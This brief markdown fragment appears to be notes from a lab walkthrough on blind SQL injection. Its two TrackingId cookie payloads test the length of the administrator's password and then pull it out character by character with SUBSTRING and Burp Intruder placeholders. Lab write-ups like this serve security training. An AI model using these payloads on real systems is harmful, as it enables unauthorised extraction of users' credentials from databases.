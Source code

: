 * TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
![alt text](image-19.png)

* ### Intruder
* TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§

![alt text](image-20.png)
